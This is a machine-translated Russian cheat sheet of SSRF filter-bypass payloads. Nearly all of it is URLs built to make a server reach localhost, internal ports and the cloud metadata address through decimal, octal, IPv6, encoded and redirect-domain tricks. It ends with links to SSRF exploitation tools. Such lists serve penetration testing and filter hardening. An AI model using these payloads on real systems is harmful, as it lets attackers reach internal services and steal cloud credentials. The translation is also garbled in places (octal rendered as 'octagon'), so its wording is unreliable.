 # Server-Side Request Forgery

> Подделка запроса на стороне сервера или SSRF - это уязвимость, при которой злоумышленник заставляет сервер выполнять запросы от их имени.



## Полезная нагрузка с Localhost 

* С использованием `localhost`
  ```powershell
  http://localhost:80
  http://localhost:443
  http://localhost:22
  ```
* С использованием `127.0.0.1`
  ```powershell
  http://127.0.0.1:80
  http://127.0.0.1:443
  http://127.0.0.1:22
  ```
* С использованием `0.0.0.0`
  ```powershell
  http://0.0.0.0:80
  http://0.0.0.0:443
  http://0.0.0.0:22
  ```


## Обход фильтров

### Обход с помощью HTTPS

```powershell
https://127.0.0.1/
https://localhost/
```

### Обход местный хост с [::] 

```powershell
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

```powershell
http://[0000::1]:80/
http://[0000::1]:25/ SMTP
http://[0000::1]:22/ SSH
http://[0000::1]:3128/ Squid
```

### Обход Localhost с перенаправлением домена 

| Domain                       | Redirect to |
|------------------------------|-------------|
| localtest.me                 | `::1`       |
| localh.st                    | `127.0.0.1` |
| spoofed.[BURP_COLLABORATOR]  | `127.0.0.1` |
| spoofed.redacted.oastify.com | `127.0.0.1` |
| company.127.0.0.1.nip.io     | `127.0.0.1` |


### Обход местный хост с CIDR 

IP -адреса от 127.0.0.0/8

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Обход с помощью десятичного IP -места 

```powershell
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/ = http://169.254.169.254
```

### Обход с помощью восьмиугольника 

Реализации отличаются от того, как обрабатывать восьмиугольный формат IPv4.

```sh
http://0177.0.0.1/ = http://127.0.0.1
http://o177.0.0.1/ = http://127.0.0.1
http://0o177.0.0.1/ = http://127.0.0.1
http://q177.0.0.1/ = http://127.0.0.1
...
```

### Обход с использованием IPv6/IPv4. 

[IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)

```powershell
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
```

### Обход с использованием уродливых URL -адресов 

```powershell
localhost:+11211aaa
localhost:00011211aaaa
```

### Обход с помощью редкого адреса

Вы можете короткие IP-адреса, уронив нули 

```powershell
http://0/
http://127.1
http://127.0.1
```

### Обход с использованием кодирования URL 

[Одиночный или двойной кодирует определенный URL для обойти черный список ](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

```powershell
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
```

### Обход с использованием переменных BASH 

(curl only)

```powershell
curl -v "http://evil$google.com"
$google = ""
```

### Обход с использованием комбинации трюков 

```powershell
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```
## Инструменты

- [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - Автоматический инструмент Fuzzer и эксплуатации SSRF 
- [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - сканер на основе Python, чтобы найти потенциальные параметры SSRF 

